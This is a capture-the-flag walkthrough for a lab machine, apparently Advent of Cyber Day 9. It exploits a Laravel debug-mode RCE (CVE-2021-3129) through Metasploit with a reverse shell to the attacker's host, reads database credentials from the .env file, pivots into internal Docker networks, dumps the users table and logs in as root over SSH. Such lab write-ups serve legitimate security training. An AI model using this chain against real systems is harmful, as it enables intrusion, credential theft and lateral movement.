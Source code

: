 # Day 9

## Deploy the attached VM, and wait a few minutes. What ports are open?

```bash
nmap -T4 -A 10.10.154.224
```

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-13 10:30 EDT
Nmap scan report for 10.10.173.133
Host is up (0.031s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.54 ((Debian))
|_http-title: Curabitur aliquet, libero id suscipit semper
|_http-server-header: Apache/2.4.54 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

{% hint style="info" %}
80
{% endhint %}

## What framework is the web application developed with?

Using `whatweb` to enumerate this website shows

{% code overflow="wrap" %}
```bash
whatweb http://10.10.154.224  
http://10.10.154.224 [200 OK] Apache[2.4.54], Cookies[XSRF-TOKEN,laravel_session], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.54 (Debian)], HttpOnly[laravel_session], IP[10.10.154.224], Laravel, PHP[7.4.30], Title[Curabitur aliquet, libero id suscipit semper], X-Powered-By[PHP/7.4.30]
```
{% endcode %}

The response of the network browser also confirms it

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Laravel
{% endhint %}

## What CVE is the application vulnerable to?

Search on google for Laravel CVE we can find this blog post:&#x20;

{% embed url="https://pentest-tools.com/blog/exploit-rce-vulnerability-laravel-cve-2021-3129" %}

{% hint style="info" %}
CVE-2021-3129
{% endhint %}

## What command can be used to upgrade the last opened session to a Meterpreter session?

Note that normal command shells do not support complex operations such as pivoting. In Metasploit’s console, you can upgrade the last opened Metasploit session to a Meterpreter session with `sessions -u -1`.

{% hint style="info" %}
sessions -u -1
{% endhint %}

## What file indicates a session has been opened within a Docker container?

A common way to tell if a compromised application is running in a Docker container is to verify the existence of a `/.dockerenv` file at the root directory of the filesystem.

{% hint style="info" %}
`/.dockerenv`
{% endhint %}

## What file often contains useful credentials for web applications?

The env file is a great way to find interesting things, usually on `/var/www/.env` or we can do a wide search on the OS with <mark style="color:green;">`find /tmp -iname .env -type f`</mark>

## What database table contains useful credentials?

Gain access to remove machine with metasploit

```
msfconsole
use exploit/multi/php/ignition_laravel_debug_rce
RHOSTS 10.10.154.224 HttpClientTimeout=30
set LHOST 10.8.30.181
run
```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

* Get meterpreter session

```bash
background
sessions -u -1
sessions -i -1
```

Inside the `.env` file

```bash
cat /var/www/.env
```

```
DB_CONNECTION=pgsql
DB_HOST=webservice_database
DB_PORT=5432
DB_DATABASE=postgres
DB_USERNAME=postgres
DB_PASSWORD=postgres
```

* Lets try to resolve this DB\_HOST

```bash
meterpreter > resolve webservice_database

Host resolutions
================

    Hostname             IP Address
    --------             ----------
    webservice_database  172.28.101.51

```

As this is an internal IP address, it won’t be possible to send traffic to it directly. We can instead leverage the network pivoting support within msfconsole to reach the inaccessible host. To configure the global routing table in msfconsole, ensure you have run the `background` command from within a Meterpreter session:

```bash
background
route add 172.28.101.51/32 -1
```

We can also see, due to the presence of the `/.dockerenv` file, that we are in a docker container. By default, Docker chooses a hard-coded IP to represent the host machine. We will also add that to our routing table for later scanning:

```bash
route add 172.17.0.1/32 -1
```

* Print current routes with `route print`

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

With the previously discovered database credentials and the routing table configured, we can start to run Metasploit modules that target Postgres. Starting with a schema dump, followed by running queries to select information out of the database:

```bash
# Dump the schema
use auxiliary/scanner/postgres/postgres_schemadump
run postgres://postgres:postgres@172.28.101.51/postgres

# Select information from a specific table
use auxiliary/admin/postgres/postgres_sql
run postgres://postgres:postgres@172.28.101.51/postgres sql='select * from users'
```

{% hint style="info" %}
users
{% endhint %}

What is Santa's password?\



<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
p4\$$w0rd
{% endhint %}

## What ports are open on the host machine?

To further pivot through the private network, we can create a socks proxy within Metasploit:

```bash
use auxiliary/server/socks_proxy
run srvhost=127.0.0.1 srvport=9050 version=4a
```

* From the attacker machine (Kali Linux)

```bash
curl --proxy socks4a://localhost:9050 http://172.17.0.1 -v

proxychains -q nmap -n -sT -Pn -p 22,80,443,5432 172.17.0.1
Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-11 14:27 CET
Nmap scan report for 172.17.0.1
Host is up (0.100s latency).

PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
443/tcp  closed https
5432/tcp closed postgresql

Nmap done: 1 IP address (1 host up) scanned in 0.75 seconds

```

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
22,80
{% endhint %}

## What is the root flag?

With the password, credentials and proxy setup we can access the server as root

```bash
msfconsole
run ssh://santa:p4$$w0rd@172.17.0.1
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

* Get meterpreter session here as well and find the flag

```bash
msf6 auxiliary(scanner/ssh/ssh_login) > sessions

Active sessions
===============

  Id  Name  Type                   Information               Connection
  --  ----  ----                   -----------               ----------
  1         shell cmd/unix                                   10.8.30.181:4444 -> 10.10.154.224:56420 (10.10.154.224)
  2         meterpreter x86/linux  www-data @ 172.28.101.50  10.8.30.181:4433 -> 10.10.154.224:44460 (172.28.101.50)
  3         shell linux            SSH parallels @           10.8.30.181-10.10.154.224:52780 -> 172.17.0.1:22 (172.17.0.1)


sessions -i -1
```

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>
